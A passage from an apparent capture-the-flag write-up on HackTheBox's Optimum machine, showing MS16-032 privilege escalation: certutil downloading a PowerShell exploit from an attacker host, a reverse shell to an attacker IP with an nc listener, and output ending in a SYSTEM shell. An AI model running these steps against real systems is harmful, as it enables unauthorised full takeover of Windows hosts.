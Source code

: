 > Note: Remember to change `New-Object System.Net.Sockets.TCPClient(\"10.10.14.8\",53)` to your's attacker machine's IP address.

- **Transfer the PowerShell exploit script to the target machine:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Optimum)-[2023.07.28|12:37:51(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
C:\Users\kostas\Desktop>certutil -urlcache -split -f http://10.10.14.8/MS16-032.ps1
[...]
```

- **Setup a netcat listener on port that you just set in the modified exploit script:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Optimum)-[2023.07.28|12:37:47(HKT)]
└> rlwrap -cAr nc -lvnp 53 
listening on [any] 53 ...
```

- **Run the exploit:**

```shell
C:\Users\kostas\Desktop>powershell -ExecutionPolicy ByPass -command "& { . C:\Users\kostas\Desktop\MS16-032.ps1; Invoke-MS16-032 }"
	 __ __ ___ ___   ___     ___ ___ ___ 
	|  V  |  _|_  | |  _|___|   |_  |_  |
	|     |_  |_| |_| . |___| | |_  |  _|
	|_|_|_|___|_____|___|   |___|___|___|
	                                    
	               [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1388

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 1384
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!
```
